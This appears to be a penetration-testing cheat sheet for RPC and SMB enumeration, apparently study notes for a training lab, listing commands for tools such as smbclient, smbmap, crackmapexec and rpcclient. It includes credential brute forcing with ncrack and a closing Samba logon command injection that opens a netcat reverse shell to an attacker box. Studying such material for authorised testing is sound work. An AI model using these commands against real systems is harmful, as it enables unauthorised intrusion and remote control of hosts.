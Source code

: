 #### RPC (135)

```bash
rpcdump.py 10.11.1.121 -p 135
rpcdump.py 10.11.1.121 -p 135 | grep ncacn_np // get pipe names
rpcmap.py ncacn_ip_tcp:10.11.1.121[135]
```

#### SMB (139 & 445)

* **Resource:** [SMB Enumeration Checklist](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)

```bash
# Check supported SMB protocols
nmap --script smb-protocols 10.10.10.10

# List shares (smbclient)
smbclient -L //10.10.10.10
smbclient -L //10.10.10.10 -N          // No password (SMB Null session)
smbclient --no-pass -L 10.10.10.10

# Connect to a share
smbclient //10.10.10.10/share_name

# List shares and permissions (smbmap)
smbmap -H 10.10.10.10
smbmap -H 10.10.10.10 -u "" -p ""
smbmap -H 10.10.10.10 -s share_name

# CrackMapExec
crackmapexec smb 10.10.10.10 -u "" -p "" --shares
crackmapexec smb 10.10.10.10 -u 'sa' -p "" --shares
crackmapexec smb 10.10.10.10 -u 'sa' -p 'sa' --shares
crackmapexec smb 10.10.10.10 -u "" -p "" --share share_name

# Enum4linux
enum4linux -a 10.10.10.10

# RPC Client enumeration
rpcclient -U "" 10.10.10.10
# Commands inside rpcclient:
# * enumdomusers
# * enumdomgroups
# * queryuser [rid]
# * getdompwinfo
# * getusrdompwinfo [rid]

# Brute force credentials
ncrack -u username -P rockyou.txt -T 5 10.10.10.10 -p smb -v

# Mount a share
mkdir /mnt/wins
mount -t cifs "//10.1.1.1/share/" /mnt/wins
mount -t cifs "//10.1.1.1/share/" /mnt/wins -o vers=1.0,user=root,uid=0,gid=0

# SMB Shell to Reverse Shell
smbclient -U "username%password" //192.168.0.116/sharename
# Inside smbclient prompt:
# smb> logon "/=nc 'attack box ip' 4444 -e /bin/bash"
```
